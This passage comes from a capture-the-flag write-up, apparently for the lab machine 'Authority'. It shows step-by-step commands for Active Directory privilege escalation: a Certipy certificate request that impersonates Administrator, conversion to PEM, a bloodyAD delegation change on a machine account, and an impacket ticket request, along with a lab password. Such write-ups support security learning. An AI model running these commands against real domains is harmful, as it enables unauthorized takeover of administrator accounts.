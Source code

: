 
Alright we have our computer account next step is to request our certificate impersonating the default domain administrator account.

```bash
certipy req -username 'Calico$@authority.htb' -password 'lDaP_1n_th3_cle4r!' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn Administrator@authority.htb  -debug
```

![Certificate requested](/assets/img/Authority/Authority_11.png)


Next up we want to convert our certificate to a PEM format. Using this PEM format we can then use it in combination with [bloody-ad](https://github.com/CravateRouge/bloodyAD) to add the resource based constrained delegation to our previously created machine account. We do this so we can get a Ticket Granting ticket for our machine account that has the ability to impersonate any account.

```bash
openssl pkcs12 -in administrator.pfx -out /tmp/cert.pem -nodes
```

Now that we have the certificate in PEM format we can use bloody-ad to add the resource based constrained delegation to our **Calico$** machine account.

```
python bloodyAD.py -d authority.htb  -c ":/tmp/cert.pem" -u 'Calico$' -s  --host 10.10.11.222 add rbcd 'AUTHORITY$' 'CALICO$'
```
![Successfully added](/assets/img/Authority/Authority_12.png)


So now that we upgraded our account to being allowed to impersonate users on the domain controller, the next step is to request a tgt with our machine account. We can do this by using the following impacket command.

```bash
impacket-getST -spn ldap/authority.authority.htb -impersonate administrator -dc-ip 10.10.11.222 'authority.htb/CALICO$:lDaP_1n_th3_cle4r!'
```

If you get an error **Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)**: This is because Kerberos is a very sensitive protocol when it comes to timing. our machine and the target need to have the same time. We can fix this by syncing our time to the target machines.

```
sudo ntpdate 10.10.11.222
```

After running the impacket command we get a valid kerberos ticket:
